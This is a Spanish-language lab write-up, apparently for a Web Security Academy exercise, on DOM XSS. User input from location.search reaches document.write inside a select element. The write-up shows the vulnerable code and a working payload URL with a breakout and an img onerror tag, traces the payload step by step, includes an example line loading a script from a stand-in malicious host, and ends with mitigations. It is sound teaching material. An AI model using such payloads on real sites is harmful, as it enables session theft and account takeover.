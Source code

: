 # **Análisis de la Vulnerabilidad: DOM XSS en `document.write` usando `location.search` dentro de un `<select>`**

### **1. Código vulnerable**
El código relevante en la aplicación es el siguiente:

```html
<script>
    var stores = ["London","Paris","Milan"];
    var store = (new URLSearchParams(window.location.search)).get('storeId');
    document.write('<select name="storeId">');
    if(store) {
        document.write('<option selected>'+store+'</option>');
    }
    for(var i=0;i<stores.length;i++) {
        if(stores[i] === store) {
            continue;
        }
        document.write('<option>'+stores[i]+'</option>');
    }
    document.write('</select>');
</script>
```

---

### **2. Explicación del flujo de ejecución**
Vamos a analizar lo que hace este código **paso por paso**:

1. **Obtención del parámetro `storeId` desde la URL**
   ```js
   var store = (new URLSearchParams(window.location.search)).get('storeId');
   ```
   - `window.location.search` devuelve la **parte de la URL después del `?`**, es decir, los parámetros GET.
   - `new URLSearchParams(...).get('storeId')` extrae el valor del parámetro `storeId`.

2. **Construcción del `<select>` con `document.write()`**
   ```js
   document.write('<select name="storeId">');
   ```
   - Este código inicia la creación de un menú desplegable `<select>`.

3. **Si `store` tiene un valor, se inserta dentro de un `<option>`**
   ```js
   if(store) {
       document.write('<option selected>'+store+'</option>');
   }
   ```
   - Aquí está el problema: **el valor de `storeId` se inserta directamente sin ser sanitizado**.
   - Como `document.write()` procesa la cadena **como HTML**, cualquier etiqueta maliciosa en `storeId` **se interpretará y ejecutará**.

4. **Se agregan opciones predefinidas**
   ```js
   for(var i=0;i<stores.length;i++) {
       if(stores[i] === store) {
           continue;
       }
       document.write('<option>'+stores[i]+'</option>');
   }
   ```
   - Esto simplemente agrega las opciones predefinidas (`London`, `Paris`, `Milan`), a menos que coincidan con `storeId`.

5. **Cierre del `<select>`**
   ```js
   document.write('</select>');
   ```
   - Este cierre debería cerrar correctamente el `<select>`, **pero el atacante puede manipularlo**.

---

### **3. Explotación de la vulnerabilidad**
Si el usuario accede a la siguiente URL maliciosa:

```
https://0ac400f4046847bdb790f7d600e900c2.web-security-academy.net/product?productId=1&storeId=%22%3E%3C/select%3E%3Cimg%20src=1%20onerror=alert(1)%3E
```

**Decodificación del valor de `storeId`:**
```html
storeId="></select><img src=1 onerror=alert(1)>
```

#### **Paso a paso de cómo el payload se ejecuta**

1. **El parámetro `storeId` se obtiene y se almacena en la variable `store`**
   ```js
   var store = '"></select><img src=1 onerror=alert(1)>';
   ```

2. **Cuando se ejecuta `document.write('<option selected>'+store+'</option>');`, el contenido de `store` se inserta en el HTML:**
   ```html
   <option selected=""></select><img src=1 onerror=alert(1)></option>
   ```

3. **Efecto de la inyección**
   - **`">`**: Termina el atributo `selected=""`, cerrando la etiqueta `<option>`.
   - **`</select>`**: **Cierra el `<select>` prematuramente**, antes de lo previsto por el código original.
   - **`<img src=1 onerror=alert(1)>`**: Inyecta una imagen con un evento `onerror`. Dado que `src=1` es una ruta inválida, se ejecuta el código JavaScript `alert(1)`.

4. **Resultado final en el DOM**
   ```html
   <select name="storeId">
       <option selected=""></option>
   </select>
   <img src=1 onerror=alert(1)>
   ```
   - Ahora tenemos una imagen en la página con un `onerror` malicioso que ejecuta `alert(1)`.

---

### **4. Impacto de la vulnerabilidad**
Esta vulnerabilidad permite a un atacante **inyectar código JavaScript arbitrario**, lo que puede provocar:

✅ **Robo de cookies y credenciales**:  
   - Un atacante podría leer `document.cookie` y enviarlo a un servidor externo para **robar sesiones**.

✅ **Secuestro de cuenta (Account Takeover)**:  
   - Si el usuario afectado es un administrador, el atacante podría realizar acciones en su nombre.

✅ **Ataques de phishing y manipulación de la interfaz**:  
   - Se podrían modificar elementos de la página para **falsificar formularios** y robar información.

✅ **Carga de scripts externos maliciosos**:  
   - Un atacante podría inyectar:
     ```html
     <script src="https://malicious.com/stealer.js"></script>
     ```
     para ejecutar código remoto.

---

### **5. Cómo mitigar la vulnerabilidad**
#### **✔️ Opción 1: Evitar `document.write()`**
El uso de `document.write()` **es una mala práctica de seguridad** y debe evitarse.  
En su lugar, usar `createElement` y `textContent`:

```js
var store = (new URLSearchParams(window.location.search)).get('storeId');
var select = document.createElement("select");
select.name = "storeId";

if (store) {
    var option = document.createElement("option");
    option.selected = true;
    option.textContent = store;  // Protege contra XSS
    select.appendChild(option);
}

document.body.appendChild(select);
```
✅ **`textContent` escapa automáticamente el texto, evitando la inyección de HTML.**

---

#### **✔️ Opción 2: Validar y sanitizar la entrada**
Si `storeId` solo debe contener nombres de tiendas válidos, podemos **verificar que su valor sea permitido**:

```js
var allowedStores = ["London", "Paris", "Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');

if (!allowedStores.includes(store)) {
    store = "London";  // Valor por defecto seguro
}
```
✅ **Esto impide que un atacante inyecte código malicioso.**

---

#### **✔️ Opción 3: Usar bibliotecas seguras**
Si es necesario manejar HTML dinámico, se recomienda usar una **biblioteca de sanitización**, como **DOMPurify**:

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/dompurify/3.0.8/purify.min.js"></script>
<script>
    var store = DOMPurify.sanitize((new URLSearchParams(window.location.search)).get('storeId'));
    document.write('<select name="storeId"><option>' + store + '</option></select>');
</script>
```
✅ **DOMPurify elimina cualquier script malicioso de la entrada del usuario.**

---

### **Conclusión**
Esta vulnerabilidad ocurre porque `document.write()` inserta datos no validados directamente en el HTML, permitiendo a un atacante **cerrar etiquetas y ejecutar JavaScript malicioso**. Para prevenir este tipo de ataques, **se deben evitar métodos inseguros de manipulación del DOM y validar correctamente la entrada del usuario**.
